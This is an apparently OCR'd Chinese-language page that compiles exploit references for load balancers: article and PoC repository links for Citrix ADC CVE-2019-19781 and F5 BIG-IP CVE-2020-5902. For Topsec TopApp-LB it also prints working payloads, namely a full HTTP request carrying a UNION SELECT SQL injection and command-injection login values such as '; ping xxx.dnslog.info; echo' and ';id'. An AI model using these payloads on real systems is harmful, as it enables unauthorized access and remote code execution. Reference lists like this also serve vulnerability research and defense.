 **Citrix ADC**
- **CVE-2019-19781 Citrix Gateway/ADC 远程代码执行漏洞**
    - 文章
        - [Citrix Gateway/ADC 远程代码执行漏洞分析](https://www.freebuf.com/news/232752.html)

    - POC | Payload | exp
        - [trustedsec/cve-2019-19781](https://github.com/trustedsec/cve-2019-19781)

**F5 BIG-IP ADC**
- **CVE-2020-5902 F5 BIG-IP 远程代码执行漏洞**
    - 文章
        - [CVE-2020-5902——关于;号绕过认证技巧总结](https://mp.weixin.qq.com/s/JnI4f3R5JZqhLFv_fTQ_0A)
        - [F5 BIG-IP Remote Code Execution Exploit - CVE-2020-5902 | Critical Start](https://www.criticalstart.com/f5-big-ip-remote-code-execution-exploit/)

    - POC | Payload | exp
        - [jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)
        - [theLSA/f5-bigip-rce-cve-2020-5902](https://github.com/theLSA/f5-bigip-rce-cve-2020-5902)

**天融信 Top-app LB**
- **SQL注入漏洞**
    - POC | Payload | exp
        - [天融信Top-app LB负载均衡SQL注入漏洞](https://www.hedysx.com/2601.html)
            ```
            POST /acc/clsf/report/datasource.php HTTP/1.1
            Host:
            Connection: close
            Accept: text/javascript, text/html, application/xml, text/xml, */*
            X-Prototype-Version: 1.6.0.3
            X-Requested-With: XMLHttpRequest
            User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
            Sec-Fetch-Site: same-origin
            Sec-Fetch-Mode: cors
            Sec-Fetch-Dest: empty
            Accept-Encoding: gzip, deflate
            Accept-Language: zh-CN,zh;q=0.9
            Cookie: PHPSESSID=ijqtopbcbmu8d70o5t3kmvgt57
            Content-Type: application/x-www-form-urlencoded
            Content-Length: 201

            t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22-- &o=r_Speed&gid=0&lmt=10&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=
            ```
- **未授权**
    - POC | Payload | exp
        - [天融信负载均衡TopApp-LB系统无需密码直接登陆](https://www.uedbox.com/post/21626/)
            ```
            登录框
            ; ping xxx.dnslog.info; echo
            ```

- **RCE**
    - POC | Payload | exp
        - [天融信TopApp-LB负载均衡命令执行漏洞大量设备可被通杀](https://www.uedbox.com/post/22193/)
            ```
            用户名随意  密码：;id
            ```

---